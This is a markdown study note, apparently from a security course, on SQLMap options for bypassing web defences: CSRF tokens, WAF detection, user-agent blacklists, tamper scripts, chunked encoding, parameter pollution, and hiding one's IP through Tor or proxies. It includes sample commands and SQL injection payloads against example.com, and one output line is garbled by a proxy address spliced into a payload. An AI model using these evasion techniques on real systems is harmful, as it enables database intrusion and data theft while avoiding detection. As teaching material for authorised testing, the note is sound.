

## Anti-CSRF Token Bypass
* SQLMap has options that can help in bypassing anti-CSRF protection
* Most important option is `--csrf-token`

```sh
$ sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:18:01 /2020-09-18/

POST parameter 'csrf-token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] y
```

## Unique Value Bypass
* Web application may only require unique values to be provided inside predefined parameters
	* Similar to the anti-CSRF technique
* The option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent

```sh
$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

## Calculated Parameter Bypass
* Web application expects a proper parameter value to be calculated based on some other parameter value(s)
* Most often md5 over some attribute e.g. `h=MD5(id)`
* Option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target

```shell-session
$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

## IP Address Concealing
* If we want to conceal our IP address, or we are blacklisted, we can try to use a proxy or the anonymity network Tor  `--tor` or `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`) or a proxy list  `--proxy-file`
* We can check if tor is working correctly by using  `--check-tor`

## WAF Bypass
* SQLMap sends a predefined malicious looking payload using a non-existent parameter name (e.g. `?pfov=...`) to test for the existence of a WAF (Web Application Firewall)
	* If popular WAF solution is used  `406 - Not Acceptable` response after such a request
	* SQLMap uses a third-party library [identYwaf](https://github.com/stamparm/identYwaf) to identify which one is used
* We can skip this heuristic test with `--skip-waf`

## User-agent Blacklisting Bypass
* If we get HTTP error code 5XX from the start
	* Potential blacklisting of the default user-agent used by SQLMap (e.g. `User-agent: sqlmap/1.4.9 (http://sqlmap.org)`)
* Bypass with the switch `--random-agent`

**Note**: If some form of protection is detected during the run, we can expect problems with the target, even other security mechanisms. The main reason is the continuous development and new improvements in such protections, leaving smaller and smaller maneuver space for attackers.

## Tamper Scripts
* One of the most popular mechanisms implemented to bypass WAF/IPS
* Special kind of (Python) scripts written for modifying requests just before being sent to the target
	* Most popular tamper scripts [between](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/between.py)
	* Replaces all occurrences of greater than operator (`>`) with `NOT BETWEEN 0 AND #`, and the equals operator (`=`) with `BETWEEN # AND #`
* Many primitive protection mechanisms (focused mostly on preventing XSS attacks) are easily bypassed
* Can be chained  `--tamper` option (e.g. `--tamper=between,randomcase`)
* Most notable tamper scripts (`--list-tampers`)



## Miscellaneous Bypasses
* `Chunked` transfer encoding, turned on using the switch `--chunked`
	* Splits the POST request's body into so-called "chunks"
* Blacklisted SQL keywords are split between chunks in a way that the request containing them can pass unnoticed
* `HTTP parameter pollution` (`HPP`)
	* Payloads are split in a similar way as in case of `--chunked` between different same parameter named values (e.g. `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`), which are concatenated by the target platform if supporting it (e.g. `ASP`)